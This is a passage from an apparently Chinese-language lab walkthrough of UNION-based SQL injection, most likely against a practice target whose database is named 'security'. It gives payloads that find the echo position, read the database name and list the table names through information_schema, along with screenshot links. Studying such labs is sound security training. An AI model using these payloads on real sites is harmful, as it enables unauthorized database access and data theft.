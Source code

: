 

**使用联合查询，查询其报错位置**：

```
?id=-2' union select 1,2,3 --+
```

![image-20220114232916780](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114232916780-16421741580961.png)



然后就可以进行操作注入爆破它的数据库：

```
?id=-2' union select 1,database(),3 --+
```

得到数据库名：security

![image-20220114233036834](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114233036834.png)



继续利用`information_schema`得到它的表名：

```
?id=-2' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+`
```

